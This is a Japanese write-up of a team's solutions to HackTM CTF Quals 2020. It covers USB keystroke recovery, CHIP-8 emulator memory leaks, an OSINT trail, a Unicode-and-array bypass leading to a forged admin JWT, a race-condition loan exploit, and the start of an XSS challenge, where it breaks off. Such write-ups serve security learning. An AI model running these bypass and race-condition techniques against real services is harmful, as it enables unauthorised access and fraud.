


2 月 1 日から 2 月 3 日にかけて開催された [HackTM CTF Quals 2020](https://ctf.hacktm.ro/) に、チーム zer0pts として参加しました。最終的にチームで 6782 点を獲得し、順位は 1 点以上得点した 747 チーム中 8 位でした。うち、私は 7 問を解いて 2213 点を入れました。

他のメンバーの write-up はこちら。

- [HackTM CTF Quals 2020 Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2020/02/06/130551)

以下、私が解いた問題の write-up です。

## [forensics 144] Strange PCAP (89 solves)
> We managed to get all the data to incriminate our CEO for selling company secrets. Can you please help us and give us the secret data that he has leaked?
> 
> Author: Legacy
> 
> 添付ファイル: Strange.pcapng

`Strange.pcapng` は USB のパケットを記録したファイルで、USB Attached SCSI によってストレージにアクセスしている様子などが見られました。

私が問題を確認した時点で、[yoshiking](https://twitter.com/y05h1k1ng) さんによって以下のように ZIP ファイルが含まれていることがわかっていました。

```
$ binwalk Strange.pcapng

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
8020775       0x7A6327        Zip archive data, encrypted at least v2.0 to extract, compressed size: 77, uncompressed size: 72, name: Flag.txt
8020980       0x7A63F4        End of Zip archive, footer length: 22
```

`binwalk -e Strange.pcapng` を実行すると抽出できますが、上記の説明を見ればわかるようにこの ZIP ファイルは暗号化されています。`zip2john` → `john` で `rockyou.txt` の総当たりなどを試してみましたがダメでした。別の方法で真面目にパスワードを探す必要があるようです。

ぼけーっと [Wireshark](https://www.wireshark.org/) でパケットを眺めていると、以下のように `1.15.1` についてはデバイスクラスが USB HID、つまりマウスやキーボードなどであることがわかります。



`tshark -r Strange.pcapng -Y 'usb.addr == "1.15.1"' -T fields -e usb.capdata > cap.txt` で `Leftover Capture Data` の部分だけを抽出します。

とりあえずキーボードとみて、入力されたキーを復元してみましょう。

```python
###
# https://github.com/1r0dm480/CTF-Wr1T3uPs/blob/master/b00t2root19/Forensics/key_me_baby/bkeymap20.py
mappings = {
︙
}
###

s = open('cap.txt').readlines()
res = ''

for line in s:
  line = line.strip()
  k1 = line[:2]
  k2 = line[4:6]
  if k2 == '00':
    continue
  res += mappings.get(k2.upper(), '??')[k1 != '00']

print(res)
```

```
$ python3 extract.py
7vgj4SSL9NHVuK0D6d3F
```

最初に抽出した ZIP ファイルを、`7vgj4SSL9NHVuK0D6d3F` をパスワードとして展開するとフラグが得られました。

```
HackTM{88f1005c6b308c2713993af1218d8ad2ffaf3eb927a3f73dad3654dc1d00d4ae}
```

## [misc 310] CHIP 8 /1 (65 solves)
> I made this sweet web-based chip8 emulator.
> The first 512 bytes of memory are protected!
> 
> (URL)
> 
> Note: This challenge can bee solved using only chip8 instructions.
> 
> Author: stackola

なんと [CHIP-8](https://en.wikipedia.org/wiki/CHIP-8) 問のようです。与えられた URL は CHIP-8 のエミュレータのようですが、この Web ページが担うのは表示部分だけのようで、プログラムの実行自体はサーバ側で行われる (現在のプログラムカウンタや最後に実行された命令、VRAM などが JSON 形式で返される) ようです。

問題文によるとメモリの最初の 512 バイトが保護されているとのことで、つまりはこれを読み出せばよいのでしょう。CHIP-8 上においてメモリは 0x0 から 0xfff の 4096 バイトで、`ANNN` のような命令で `I` レジスタにアドレスを格納した上で `FX65` のような命令を使うことで読み出したりできます。

初期状態では `I` には 0x200 が入っているようです。早速以下のような命令 (`ANNN`: `I` に即値を入れる) で `I` を 0x0 にしてみましょう。

```
A000 ; I = 0
```

実行してみると `SECURITY VIOLATION DETECTED: Can not set I outside of legal memory range.` と怒られてしまいました。

この他に `I` を操作可能な命令は `FX1E` (`I` に `VX` レジスタを加算) や `FX29` (`I` に `スプライト[VX]` を入れる) があります。前者で整数オーバーフローができるのではないかと一瞬考えましたが、後述 (CHIP 8 /2) の通りメモリの後ろ 512 バイトも保護されており、途中でこの領域を通る必要があるためダメそうです。後者を試してみましょう。

```
6000 ; V0 = 0
F029 ; I = sprite_addr[V0]
```

これを実行すると、エラーを吐かずに `I` を 0x0 にすることができました。やった!

メモリを読み出す命令は `FX55` (`I` レジスタが指しているメモリの値を `VX` レジスタに入れる) と `DXYN` がありますが、上記の命令列に `F055` を追加して実行してみたところ `Invalid memory access!` と怒られてしまいました。

いろいろ試していると、`DXYN` (`(VX, VY)` に幅 8 ピクセル * 高さ `N` ピクセルで `I` レジスタの指しているスプライトを描画する) 命令でメモリをスプライトとして解釈させて読み出せることがわかりました。

フラグがどこにあるか探していると、以下のような命令列で不思議なものが描画されました。

```
6010 ; V0 = 0x10
F029 ; I = sprite_addr[V0]
D11F ; draw(V1, V1, 15)
```


これを 2 進数に直すと以下のようになります。

```
01001000 (0x48 'H')
01100001 (0x61 'a')
01100011 (0x63 'c')
01101011 (0x6b 'k')
︙
```

フラグが読めているようです。命令列の生成から描画されたもののデコードまでを自動化してみましょう。

```javascript
(async () => {
  let flag = [];
  for (let i = 0; i < 10; i++) {
    const req = await fetch('(省略)', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({
        code: `601${i}\nf029\nd115`
      })
    });
    const json = await req.json();
    for (let j = 0; j < 5; j++) {
      const bin = json.data.display[j].slice(0, 8).join('');
      const c = parseInt(bin, 2);
      if (c) {
        flag.push(c);
      }
    }
  }
  console.log(String.fromCharCode(...flag));
})();
```

これを実行するとフラグが出力されました。

```
HackTM{a55em8led_s0cks}
```

## [misc 383] CHIP 8 /2 (51 solves)
> I made this sweet web-based chip8 emulator.
> The last 512 bytes of memory are protected!
> 
> (URL)
> 
> Note: This challenge can bee solved using only chip8 instructions.
> 
> Author: stackola

CHIP 8 /1 の続きのようですが、今度はメモリの後ろ 512 バイトを読む必要があるようです。`I` レジスタが 12 ビット分の値を取りうるのに対して `VX` レジスタ等は 8 ビットしかないため、今度は先程の手が使えません。

これ以外の方法でなんとかしてメモリの任意のアドレスを読み出せないか考えていたところ、この CHIP-8 のエミュレータがプログラムカウンタや最後に実行された命令を表示することを思い出しました。CHIP-8 ではプログラムもフラグなどと同様にメモリ上に配置されるはずですから、`1NNN` (`NNN` にジャンプする) 命令でフラグのあるところにジャンプさせることもできるはずです。やってみましょう。

```
1F41 ; goto 0xF41
```

これを実行し、2 度 `Step` (ステップ実行できる) ボタンを押すと `Last instruction` に `4861` という値が入っていました。`1F43` では `636B` になりました。`1F45` では `Invalid instruction: 544D` というエラーが表示されました。16 進数部分をつなげてデコードすると `HackTM` になります。どうやらフラグが読み出せているようです。

この作業を自動化しましょう。CHIP-8 の命令として正しくないバイト列に当たってしまった場合にはエラーメッセージを切り出し、そうでない場合には `Last instruction` を使うようにします。

```javascript
(async () => {
  let flag = '';
  for (let addr = 0xf41; addr < 0x1000; addr += 2) {
    const req = await fetch('(省略)', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify({
        code: `1${addr.toString(16)}`,
        step: 2
      })
    });
    const json = await req.json();
    if (json.status === 'error') {
      flag += json.message.slice(-4); // "Invalid instruction: 544D"
    } else {
      flag += json.data.lastInstruction;
    }
    if (flag.includes('7D')) {
      break;
    }
  }
  console.log(flag);
})();
```

これを実行して出力された文字列をデコードするとフラグが得られました。

```
HackTM{jud6e_jury_and_3x3cut1on}
```

## [osint 424] OLD Times (41 solves)
> There are rumors that a group of people would like to overthrow the communist party. Therefore, an investigation was initiated under the leadership of Vlaicu Petronel. Be part of this ultra secret investigation, help the militia discover all secret locations and you will be rewarded.
> 
> Author: FeDEX
> Flag Format: HackTM{SECRET}
> 
> CoAuthor: Legacy

問題文中の `Vlaicu Petronel` という人名をググると [@PetronelVlaicu](https://twitter.com/PetronelVlaicu) という Twitter のアカウントがヒットしました…が、有益なツイートはなさそうです。

ここで悩んでいると、aventador さんによって Internet Archive の [Wayback Machine](https://archive.org/web/) を使うと削除されたツイートがいくつか見られることがわかりました。このうち気になるものを抜粋します。

> 1XhgPI0jpK8TjSMmSQ0z5Ozcu7EIIWhlXYQECJ7hFa20
> 
> http://web.archive.org/web/20191206221532/https:/twitter.com/PetronelVlaicu

Base64 デコードしても意味のあるバイト列は出てきません。Bitcoin アドレスかと思いましたが、Base58 では出現しない文字 (`I` `0` `O` `l`) も含まれています。

> I love Google G Suite services!❤
> 
> http://web.archive.org/web/20191207122830/https://twitter.com/PetronelVlaicu

先程の文字列は Google のサービスに関連するものなのでしょうか。少し考えて Google ドライブでファイルを共有した際に生成される URL の一部っぽいことに気づきました。試しに `https://drive.google.com/file/d/1XhgPI0jpK8TjSMmSQ0z5Ozcu7EIIWhlXYQECJ7hFa20/view` にアクセスしてみると `Report - Week VII` というタイトルのドキュメントが表示されました。

このドキュメントは `Iovescu Marian` さんについてのレポートのようですが、よく見ると名前の後ろに小さな文字で `- who goes by the name of E4gl3OfFr3ed0m` と書いてあります。`E4gl3OfFr3ed0m` でググってみると [GitHub のアカウント](https://github.com/E4gl3OfFr3ed0m)が見つかりました。

この GitHub アカウントは [E4gl3OfFr3ed0m/resistance](https://github.com/E4gl3OfFr3ed0m/resistance) というそれっぽいリポジトリだけを持っています。このリポジトリには `README.md` と `heart.jpg` だけが存在しており、`README.md` には `there is nothing to see in the picture 👀` と書かれています。…が、ソースをよく見てみましょう。

```markdown
# resistance
there is nothing to see in the picture 👀
<!-- http://138.68.67.161:55555/ -->
```

HTML コメントとして URL が埋め込まれています。アクセスしてみましたが、`403 Forbidden` と怒られてしまいました。

先程のリポジトリのコミット履歴を見ていると、`top secret` というメッセージとともに以下のような内容の `spread_locations.php` というファイルが追加されている[コミット](https://github.com/E4gl3OfFr3ed0m/resistance/commit/daf3ae0c393dab1f5d26ad308bb59aa87002a6e4)が見つかりました。

```php
<?php

$myfile = fopen("locations.txt", "r") or die("Unable to open file!");
$locs = fread($myfile,filesize("locations.txt"));
fclose($myfile);
$locs = explode("\n",$locs);

$reg = $_GET["region"];
if($reg < 129 && $reg >= 0){
  echo "<b>[".$reg."]:</b> ";
  echo $locs[$reg];
}
else{
  echo "<b>Intruder!</b>";
}

?>
```

`?region=0` のように GET パラメータを与えると `locations.txt` の好きな行を表示してくれるプログラムのようです。恐らくこれが `README.md` に URL が隠されていた Web サーバで動いているのでしょう。実際に、`http://138.68.67.161:55555/spread_locations.php?region=0` にアクセスしてみると `[0]: 22.5277957,47.3561089` が返ってきました。これは座標ですね。

129 行目まで自動で収集する Python スクリプトを書きましょう。

```python
import requests

URL = 'http://138.68.67.161:55555/spread_locations.php?region='

res = []
for i in range(129):
  r = requests.get(URL + str(i))
  loc = r.content.decode('ascii').split(' ')[1]
  res.append(loc)
  
  with open('locations.txt', 'w') as f:
    f.write('\n'.join(res))
```

集めた座標をプロットしてみます。

```python
import matplotlib.pyplot as plt

with open('locations.txt') as f:
  lines = f.readlines()
  locations = [[float(x) for x in line.split(',')] for line in lines]

plt.scatter([x[0] for x in locations], [x[1] for x in locations])
plt.show()
```

これを実行すると以下のような画像が表示されました。



```
HackTM{HARDTIMES}
```

## [web 175] Draw with us (85 solves)
> Come draw with us!
> 
> (URL)
> 
> Author: stackola
> 
> Hint! Changing your color is the first step towards happiness.
> 
> 添付ファイル: stripped.js

参加者全員で共有のホワイトボードにお絵かきができる Web アプリケーションのようです。

与えられた `stripped.js` は問題サーバで動いているサービスのソースコードのようです。まずはフラグがどこから来るか、またどのような条件でフラグが表示されるか確認しましょう。

```javascript
const { flag, p, n, _clearPIN, jwtSecret } = require("./flag");

const config = {
︙
  p: p,
  n: n,
︙
};
```

フラグは `flag.js` に格納されているようです。フラグの他にも `p` や `n` といったものを読み込んでいます。なお、`p` と `n` は `config` というオブジェクトのプロパティとして格納されるようです。

```javascript
app.get("/flag", (req, res) => {
  // Get the flag
  // Only for root
  if (req.user.id == 0) {
    res.send(ok({ flag: flag }));
  } else {
    res.send(err("Unauthorized"));
  }
});
```

`req.user.id` が `0` のときにフラグが表示されるようです。`req.user` はそのセッションでログインしているユーザ情報が格納されており、これは JWT としてログイン時にサーバが発行してクライアントが保持するもののようです。つまり、JWT の署名に使われる秘密鍵を手に入れて自分で署名するとか、署名前の時点で `req.user.id` が `0` になるよう仕向ける必要がありそうです。

どこで署名がなされているか確認しましょう。

```javascript
function sign(o) {
  return jsonwebtoken.sign(o, jwtSecret);
}
```

```javascript
app.post("/login", (req, res) => {
  // Login
  // POST
  // {
  //   username: "dumbo",
  // }

  let u = {
    username: req.body.username,
    id: uuidv4(),
    color: Math.random() < 0.5 ? 0xffffff : 0x0,
    rights: [
      "message",
      "height",
      "width",
      "version",
      "usersOnline",
      "adminUsername",
      "backgroundColor"
    ]
  };

  if (isValidUser(u)) {
    users[u.id] = u;
    res.send(ok({ token: sign({ id: u.id }) }));
  } else {
    res.json(err("Invalid creds"));
  }
});
```

ログイン時に生成されたユーザ情報を署名しています。`id` を操作できないか考えましたが、ここでは `id: uuidv4()` とランダムに生成されており、ユーザが介入できる余地はありません。次を確認します。

```javascript
app.post("/init", (req, res) => {
  // Initialize new round and sign admin token
  // RSA protected!
  // POST
  // {
  //   p:"0",
  //   q:"0"
  // }

  let { p = "0", q = "0", clearPIN } = req.body;

  let target = md5(config.n.toString());

  let pwHash = md5(
    bigInt(String(p))
      .multiply(String(q))
      .toString()
  );

  if (pwHash == target && clearPIN === _clearPIN) {
    // Clear the board
    board = new Array(config.height)
      .fill(0)
      .map(() => new Array(config.width).fill(config.backgroundColor));
    boardString = boardToStrings();

    io.emit("board", { board: boardString });
  }

  //Sign the admin ID
  let adminId = pwHash
    .split("")
    .map((c, i) => c.charCodeAt(0) ^ target.charCodeAt(i))
    .reduce((a, b) => a + b);

  console.log(adminId);

  res.json(ok({ token: sign({ id: adminId }) }));
});
```

`/init` という API のエンドポイントが生えています。これはクライアント側のソースコードからは参照されておらず大変怪しく感じます。処理を読んでみると、どうやらユーザが POST した `p` と `q` の積の MD5 ハッシュと `config.n` の MD5 ハッシュについて、1 文字ずつ XOR した値の合計を `id` としたユーザを署名して返してくれるようです。バックドア的なものでしょうか。

とにかく、`config.n` と `config.p` を手に入れられれば、`n` を `p` で割ることで `q` が手に入れられ、得られた `p` と `q` を使えば `id` が `0` の JWT を作れます。

`config.n` や `config.p` を得るにはどうすればよいでしょうか。`config` を参照している箇所を探してみると、`/serverInfo` という API が見つかりました。

```javascript
app.get("/serverInfo", (req, res) => {
  // Get server info
  // Only for logged in users
  let user = users[req.user.id] || { rights: [] };
  let info = user.rights.map(i => ({ name: i, value: config[i] }));
  res.json(ok({ info: info }));
});
```

`user.rights` の範囲内で `config` のプロパティを参照できるようです。`user.rights` を変更できる箇所を探すと `/updateUser` という API が見つかりました。

```javascript
app.post("/updateUser", (req, res) => {
  // Update user color and rights
  // Only for admin
  // POST
  // {
  //   color: 0xDEDBEE,
  //   rights: ["height", "width", "usersOnline"]
  // }
  let uid = req.user.id;
  let user = users[uid];
  if (!user || !isAdmin(user)) {
    res.json(err("You're not an admin!"));
    return;
  }
  let color = parseInt(req.body.color);
  users[uid].color = (color || 0x0) & 0xffffff;
  let rights = req.body.rights || [];
  if (rights.length > 0 && checkRights(rights)) {
    users[uid].rights = user.rights.concat(rights).filter(onlyUnique);
  }
  res.json(ok({ user: users[uid] }));
});
```

`isAdmin` が真と判定されるような値を返すような `user` ならば、`rights` という配列を POST すると `checkRights` が許す範囲で `user.rights` に追加してくれるようです。`checkRights` を確認します。

```javascript
function checkRights(arr) {
  let blacklist = ["p", "n", "port"];
  for (let i = 0; i < arr.length; i++) {
    const element = arr[i];
    if (blacklist.includes(element)) {
      return false;
    }
  }
  return true;
}
```

一番欲しい `n` や `p` は禁止されています。厳しそうに見えますが、JavaScript で書かれていることを思い出しましょう。JavaScript においては `({'n': 123})[['n']]` と `({'n': 123}).n` は等価ですが、`['p','n'].includes(['n'])` は `false` を返します。これを利用すれば `rights` として `['n','p']` の代わりに `[['n'],['p']]` を投げることで、`/serverInfo` が `config.n` と `config.p` を返すようになります。

さて、あとは `isAdmin` が真と判定されるような値を返すような `user` を作るだけです。`isAdmin` の実装を確認しましょう。

```javascript
function isAdmin(u) {
  return u.username.toLowerCase() == config.adminUsername.toLowerCase();
}
```

```javascript
const config = {
/* (snipped) */
  adminUsername: "hacktm",
/* (snipped) */
};
```

ユーザ名を `String.prototype.toLowerCase` に通した結果が `hacktm` なら `isAdmin` が `true` を返すようです。では `hacktm` としてログインしてみようと試してみましたが、`Invalid creds` と怒られてしまいました。`/login` の実装を再度確認します。

```javascript
app.post("/login", (req, res) => {
  // Login
  // POST
  // {
  //   username: "dumbo",
  // }

  let u = {
    username: req.body.username,
    id: uuidv4(),
    color: Math.random() < 0.5 ? 0xffffff : 0x0,
    rights: [
      "message",
      "height",
      "width",
      "version",
      "usersOnline",
      "adminUsername",
      "backgroundColor"
    ]
  };

  if (isValidUser(u)) {
    users[u.id] = u;
    res.send(ok({ token: sign({ id: u.id }) }));
  } else {
    res.json(err("Invalid creds"));
  }
});
```

```javascript
function isValidUser(u) {
  return (
    u.username.length >= 3 &&
    u.username.toUpperCase() !== config.adminUsername.toUpperCase()
  );
}
```

ユーザ名の長さが 3 文字以上かつユーザ名を `String.prototype.toUpperCase` に通した結果が `HACKTM` なら `isValidUser` が `true` を返すようです。

なぜ `isValidUser` は `String.prototype.toUpperCase` を使い、`isAdmin` は `String.prototype.toLowerCase` を使っているのでしょうか。`isValidUser` が `true` を返し、かつ `isAdmin` も `true` も返すような魔法の文字列がないか探してみましょう。

```javascript
const check = username => {
  const u = { username };
  const config = { adminUsername: 'hacktm' };

  function isAdmin(u) {
    return u.username.toLowerCase() == config.adminUsername.toLowerCase();
  }

  function isValidUser(u) {
    return (
      u.username.length >= 3 &&
      u.username.toUpperCase() !== config.adminUsername.toUpperCase()
    );
  }

  return isAdmin(u) && isValidUser(u);
};

const template = 'hacktm';
for (let i = 0; i < template.length; i++) {
  for (let j = 0; j < 0x10000; j++) {
    const c = String.fromCharCode(j);
    const t = template.slice(0, i) + c + template.slice(i + 1);
  
    if (check(t)) {
      console.log(t, j.toString(16));
    }
  }
}
```

これを実行すると `hacKtm` (`K` っぽい文字は `U+212A`) という文字列がこの条件を満たすことがわかりました。やった!

最終的に以下のような手順でフラグが得られました。

1. `hacKtm` として登録して admin になる
2. `/updateUser` で `['p']` と `['q']` を `user.rights` に追加する
3. `/serverInfo` で `config.p` と `config.n` を得る
4. `n` を `p` で割って `q` を得る
5. `/init` に `p` と `q` を POST して `id` が `0` な JWT を得る
6. 生成された JWT を使って `/flag` にアクセス

```
HackTM{Draw_m3_like_0ne_of_y0ur_japan3se_girls}
```

## [web 280] My Bank (70 solves)
> Who's got my money?
> 
> Please abstain from brute-forcing files.
> 
> (URL)
> 
> Author: nytr0gen

この問題は zer0pts が 2nd solve でした。

与えられた URL にアクセスするとインターネットバンキング的な Web アプリケーションが表示されました。この Web アプリケーションにはお金を借りる機能ととなぜか商品の購入ができる機能がついているようです。

商品の中には `Flag` というものがあり、これは 1337 tBTC で買えるようです。お金は一度で最大 100 tBTCを借りることができますが、合計で 600 tBTC までしか借りられず、普通にはフラグを買えなさそうです。

このようなシチュエーションで思い出すのはレースコンディションです。試しに `curl '(省略)' -H 'Origin: (省略)' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: session=(省略)' --data 'csrf_token=(省略)&loan=100' &` をいくつか繋げて実行してみると、所持金はリクエストの個数 * 100 tBTC 分ちゃんと増えていましたが、借りられる限度額はそれより少ない額しか減っていませんでした。

これを利用すれば 600 tBTC を超えて借りられそうです。何度か繰り返すと 1400 tBTC を借りることができました。これを使って `Flag` を買うとフラグが得られました。

```
HackTM{9f19d6b8fdc9f5c6426343f5b004e6c6794d96b9be329402af463c294297550b}
```

## [web 497] Humans or Dancers (8 solves)
> Please do not brute-force for any files or directories.
> 
> Recommended browser: Chrome
> 
> (URL)
> 
> Author: nytr0gen

この問題は zer0pts が 1st solve でした。

問題名から `robots.txt` が存在すると推測し、アクセスすると以下のような内容が返ってきました。

```
User-agent: *
Disallow: /admin
```

試しに `/admin` にアクセスしてみましたが、`403 Forbidden` と怒られてしまいました。きっと admin だけしか見られないページなのでしょう。

与えられた URL にアクセスすると以下のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="robots" content="noindex, nofollow, nosnippet, noarchive" />
    <meta name="referrer" content="never">
    <meta name="referrer" content="no-referrer">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <link href="/static/app.css" rel="stylesheet">

    <title>The Killers FanPage</title>
</head>
<body class="body-main">
    <div class="wrap">
    <header class="header">
      <h1 class="title"><a href="#/page/acasa">The Killers</a></h1>
      <nav class="meniu">
        <a href="#/page/acasa">Acasa</a>
        <a href="#/page/galerie">Galerie</a>
            <div class="dropdown">
                <a href="#/page/istorie">Istorie</a>
                <div class="dropdown-content">
                    <a href="#/page/istorie#primii_ani">Primii ani</a>
                    <a href="#/page/istorie#hot_fuss">Hot Fuss</a>
                    <a href="#/page/istorie#sams_town">Sam's Town</a>
                    <a href="#/page/istorie#sawdust">Sawdust</a>
                    <a href="#/page/istorie#day_age">Day &amp; Age</a>
                </div>
            </div>
            <div class="dropdown">
                <a href="#/page/membri">Membri</a>
                <div class="dropdown-content">
                    <a href="#/page/membri#brandon">Brandon Flowers</a>
                    <a href="#/page/membri#dave">Dave Keuning</a>
                    <a href="#/page/membri#mark">Mark Stoermer</a>
                    <a href="#/page/membri#ronnie">Ronnie Vannucci Jr.</a>
                </div>
            </div>
            <a href="#/page/discografie">Discografie</a>
            <!-- <a href="#/page/sugestii">Sugestii</a> -->
        </nav>
    </header>

    <div class="page">
        <div class="page__404">
            <h3>404 page not found</h3>
        </div>
        <div class="page__loading">
            <div class="spinner">
                <div class="dot1"></div>
                <div class="dot2"></div>
            </div>
        </div>
        <iframe class="page__frame"></iframe>
    </div>

    <footer class="copyright">Copyright &copy; 2020. <a href="#/page/credite">Credite</a></footer>
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
    <script src="/static/app.js"></script>
</body>
</html>
```

`/static/app.js` は以下のような内容でした。

```javascript
$(document).ready(function() {

Object.freeze(location);

var DEFAULT_ROUTE = '/page/acasa';

var $page = $('.page');
var $pageFrame = $page.find('.page__frame');
var currentRoute = null;

var isValidUrl = function (url) {
    if ((url.toLowerCase().startsWith('//'))) {
        url = "https:" +  url;
    }

    let isValidUrl = isValidJSURL(url);
    let isUrl = isValidPattern(url);
    let sameDomain = url.toLowerCase().startsWith('/') && !url.substr(1).toLowerCase().startsWith('/');

    let ret = ((isValidUrl && isUrl) || sameDomain);

    return ret;
};

var expression = /^(https?\:\/\/)?[a-zA-Z0-9_-]+(.[a-zA-Z0-9_-]+)*.[a-zA-Z]{2,4}(\/[a-zA-Z0-9_]+){0,15}(\/[a-zA-Z0-9_]+.[a-zA-Z]{2,4}(\?[a-zA-Z0-9_]+\=[a-zA-Z0-9_]+)?)?(\&[a-zA-Z0-9_]+\=[a-zA-Z0-9_]+){0,15}$/gi;
var regex = new RegExp(expression);
var isValidPattern = function(url) {
    var urlNoQueryString = url.split('?')[0];
    return (url != null && !(urlNoQueryString.match(regex) === null || (url.split(" ").length - 1) > 0));
};

var isValidJSURL = function (url) {
    if (!(url.toLowerCase().startsWith("http://") || url.toLowerCase().startsWith('https://'))) {
        url = 'https://' +  url;
    }

    var toOpenUrl;
    try {
        toOpenUrl = new URL(url);
        return toOpenUrl.origin !== 'null';
    } catch (e) {}

    return false;
};

$(window).bind('hashchange', function() {
    // parse hash
    var hash = location.hash;
    if (hash.length > 1) {
        hash = hash.slice(1);
    }

    var route = decodeURIComponent(hash.split('@')[0]);
    if (route === '' || !isValidUrl(route)) {
        // goto default page
        route = DEFAULT_ROUTE;
    }

    var scrollToID = hash.match(/#([a-z_]+)$/);
    if (scrollToID !== null) {
        scrollToID = scrollToID[0];
        route = route.slice(0, -scrollToID.length);
    }

    if (route === currentRoute) {
        var frame$ = window.frames[0].window.$;
        var frame$id = frame$(scrollToID);
        if (frame$id.length == 1) {
            frame$('html, body').animate({
                scrollTop: frame$id.offset().top
            }, 400);
        }

        return;
    }

    $page.removeClass('page--frame')
        .removeClass('page--' + currentRoute)
        .addClass('page--loading');

    $pageFrame.attr('src', route);
    $pageFrame.one('load', function(e) {
        setTimeout(function() {
            // if exists show it
            currentRoute = route;

            $page.removeClass('page--loading')
                .addClass('page--frame')
                .addClass('page--' + route);

            var frame = e.target.contentWindow;
            var frame$ = frame.$;
            if (!frame$) {
                // if it doesnt exists show 404
                currentRoute = '404';

                $page.removeClass('page--loading')
                    .addClass('page--404');

                return;
            }

            if (scrollToID) {
                var frame$id = frame$(scrollToID);
                if (frame$id.length == 1) {
                    frame$('html, body').animate({
                        scrollTop: frame$id.offset().top
                    }, 400);
                }
            }
        }, 100);
    });
});

$(window).trigger('hashchange');

});
```

SPA のようです。各リンクをクリックすると `<iframe class="page__frame"></iframe>` にそのページが表示されました。

メニューには `<!-- <a href="#/page/sugestii">Sugestii</a> -->` となぜかコメントアウトされているリンクがあります。これにアクセスすると以下のような HTML が返ってきました。

```html
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <title>shouldn't load this directly</title>

    <link href="/static/app.css" rel="stylesheet">
    <link href="/static/colorbox.css" rel="stylesheet">

    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery.colorbox/1.6.4/jquery.colorbox-min.js"></script>
</head>
<body class="body-page">
    


<form action="" method="post">
  

  <input id="path" name="path" type="hidden" value="/#/page/acasa">
<input id="csrf_token" name="csrf_token" type="hidden" value="IjAyNzQyMmUwMWZiNjJmYmZkZmRiMGM0NjFlYmQ5MWQ4ZmNmMDBiYTYi.XjjxFw.n0QqP-UzJhi400IbTQLq5dgEc2U">
  <textarea cols="60" id="message" name="message" placeholder="Scrie parerea ta" required rows="20"></textarea>
  
<script src='https://www.google.com/recaptcha/api.js' async defer></script>
<div class="g-recaptcha" data-sitekey="6LfE7dQUAAAAABOc1rpiWCU0CQF9Msv2XBdvgd5q"></div>

  <input type="submit" value="Trimite sugestie">
</form>


</body>
</html>
```

管理者にメッセージを送れるようです。ということは管理者に XSS かなにかを踏ませて `/admin` を取得させ、これを送らせればよい感じでしょうか。

まずこのフォームの送信先で XSS ができる可能性を考えて様々な XSS のペイロードを送ってみましたが、何も反応はありませんでした。となると、怪しいのは `<input id="path" name="path" type="hidden" value="/#/page/acasa">` です。管理者が送った `path` にアクセスすると考えて `/#//example.com` を送ってみましたが…これも反応はありません。HTTP レスポンスヘッダをよく見ると、以下のように CSP が設定されていました。

```
Content-Security-Policy: base-uri 'self'; block-all-mixed-content; frame-ancestors 'self'; object-src 'none'; connect-src 'self'; frame-src 'self' https://www.youtube.com https://www.google.com; script-src 'self' 'unsafe-inline' https://cdnjs.cloudflare.com https://www.google.com/recaptcha/api.js https://www.gstatic.com/recaptcha/; report-uri /api/report-csp
```

`/#//example.com` にアクセスすると `iframe` で `//example.com` が開かれるはずですが、これは `frame-src 'self' https://www.youtube.com https://www.google.com` によって弾かれるはずです。先程 `/#//example.com` を送ったときに反応しなかったのはこのためでしょう。ということで、とりあえずこのサービスのオリジンで任意の JavaScript コードを実行する方法を探しましょう。

リンクのクリック時にどのようにして `iframe` の `src` を変えているか `app.js` を探すと、以下のような処理が見つかりました。

```javascript
var isValidUrl = function (url) {
    if ((url.toLowerCase().startsWith('//'))) {
